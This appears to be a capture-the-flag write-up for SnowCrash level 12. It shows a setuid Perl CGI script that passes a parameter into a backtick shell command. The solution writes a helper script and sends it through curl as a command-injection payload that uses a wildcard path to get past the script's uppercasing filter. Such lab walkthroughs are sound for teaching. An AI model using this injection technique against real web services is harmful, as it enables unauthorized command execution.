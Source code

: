 # Level 12

## The Challenge

The folder contain a perl script named level12.pl owned by flag12. The setuid and setgid bits are set.

```sh
level12@SnowCrash:~$ ls -al
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
level12@SnowCrash:~$ perl level12.pl
Content-type: text/html

..level12@SnowCrash:~$
```

level12 run a CGI script on port 4646. The script takes two arguments x and y as parmeters and print either a dot or two dots according to those parameters.

```sh
level12@SnowCrash:~$ curl 'localhost:4646?x=hello&y=coucou'
.level12@SnowCrash:~$

```

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

## The target

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

This line execute a shell command under flag12 uid. The idee is to inject getflag in $xx such as it will be run at the same time.
Something like `getflag > /tmp/flag`. But this can't be put directly in param x as it will be wrecked by the script before. We put then the command line into a script with a name (HACK) who will pass through the code without dammage.

## The hack

HACK:

```sh
getflag > /tmp/flag
```

```sh
$ vim /tmp/HACK
$ chmod 777 /tmp/HACK
$ touch /tmp/flag
$ curl 'localhost:4646?x=`/*/HACK`'
$ cat /tmp/flag
```

